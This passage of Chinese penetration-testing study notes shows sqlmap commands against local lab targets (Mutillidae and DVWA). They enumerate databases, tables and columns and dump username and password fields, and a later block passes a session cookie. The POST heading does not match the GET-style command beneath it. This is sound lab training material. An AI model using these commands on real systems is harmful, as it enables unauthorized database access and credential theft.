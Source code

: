 示例步骤：

```shell
# 获取当前数据库
sqlmap -u "http://192.168.19.129/mutillidae/index.php?page=user-info.php&username=sss&password=ssss&user-info-php-submit-button=View+Account+Details" --batch --current-db -p username

# 获取数据库表
sqlmap -u "http://192.168.19.129/mutillidae/index.php?page=user-info.php&username=sss&password=ssss&user-info-php-submit-button=View+Account+Details" --batch -D nowasp --tables

# 获取表的字段
sqlmap -u "http://192.168.19.129/mutillidae/index.php?page=user-info.php&username=sss&password=ssss&user-info-php-submit-button=View+Account+Details" --batch -D nowasp -T accounts --columns

# 获取表中的数据
sqlmap -u "http://192.168.19.129/mutillidae/index.php?page=user-info.php&username=sss&password=ssss&user-info-php-submit-button=View+Account+Details" --batch -D nowasp -T accounts -C "username,password" --dump
```





##### POST方法注入

sqlmap进行POST注入：

![SQLInjectionSQLMAPPOST方法注入](../../../MarkdownImgs/安全技术/渗透测试/安全学习笔记/SQLInjectionSQLMAPPOST方法注入.png)

注入解析：

```shell
sqlmap -u "http://192.168.19.129/dvwa/vulnerabilities/sqli/?id=111&Submit=Submit" --batch --cookie="PHPSESSID=rj9lgkc4peuukqjn4hiuqdjvo5;security=low;acopendivids=swingset,jotto,phpbb2,redmine;acgroupswithpersist=nada" -p id
```

sqlmap进行POST注入结果：

![SQLInjectionSQLMAPPOST方法注入结果](../../../MarkdownImgs/安全技术/渗透测试/安全学习笔记/SQLInjectionSQLMAPPOST方法注入结果.png)


